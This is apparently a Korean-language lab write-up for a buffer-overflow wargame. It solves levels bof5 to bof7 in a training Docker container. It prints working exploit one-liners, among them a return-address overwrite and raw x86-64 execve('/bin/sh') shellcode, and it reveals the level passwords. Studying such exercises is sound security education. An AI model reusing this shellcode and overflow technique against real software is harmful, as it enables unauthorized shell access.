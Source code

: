 # Assignment

```shell
 $ docker run -it --privileged ccss17/bof
```

> ID는 bof5, Password는 bof4에서 밝혀냈음.

<br/>

### 8 - bof5

```shell
 $ vi bof5.c
```

![08-bof5_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof5.c의 소스 코드를 확인한다.

![08-disas](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-disas_vuln.png?raw=true)

함수의 구성을 확인한다.

```shell
 $ (python -c "print '/bin/sh\x00'+'x'*132+'\x78\x56\x34\x12'";cat) | ./bof5
```

↑ Little endian 식의 키 값(\x78\x56\x34\x12)을 넣어준 코드임 ↑

![08-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof6.pw를 읽어준다.

> bof6의 비밀번호는 b35aad61 이다.

<br/>
<br/>

### 9 - bof6

```shell
 $ vi bof6.c
```

![09-bof5\6_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/08-bof5_code.png?raw=true)

bof6.c의 소스 코드를 확인한다.

**(python -c "print 'x'\*< BUF to RETURN ADDRESS >+'< SHELLCODE ADDRESS >'";cat) | ./bof6**

<br/>

buf와 return address의 거리는 136이다. (buf_size + SFP)

<img src = "https://github.com/YYYEJI/SECURITY/blob/master/img/09-pw.png?raw=true" width="30%" height="20%">

쉘을 열어주고
쉘 권한으로 bof7.pw를 읽어준다.

> bof7의 비밀번호는 ffa35d7e 이다.

<br/>
<br/>

### 10 - bof7

```shell
 $ vi bof7.c
```

![10-bof7_code](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-bof6_code.png?raw=true)

bof7.c의 소스 코드를 확인한다.

<br/>

buf와 return address의 거리는 136이다.
그리고 8byte를 덮어줘야 하기 때문에 전달해야 할 인자값은 144byte이다.

<br/>

```shell
 $  ./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 'x'*109 + '\xb0\xea\xff\xff\xff\x7f'"`
```

![10-pw](https://github.com/YYYEJI/GBC_SECURITY/blob/master/img/10-pw.png?raw=true)

쉘을 열어주고
쉘 권한으로 bof8.pw를 읽어준다.

> bof7의 비밀번호는 0dc54105 이다.
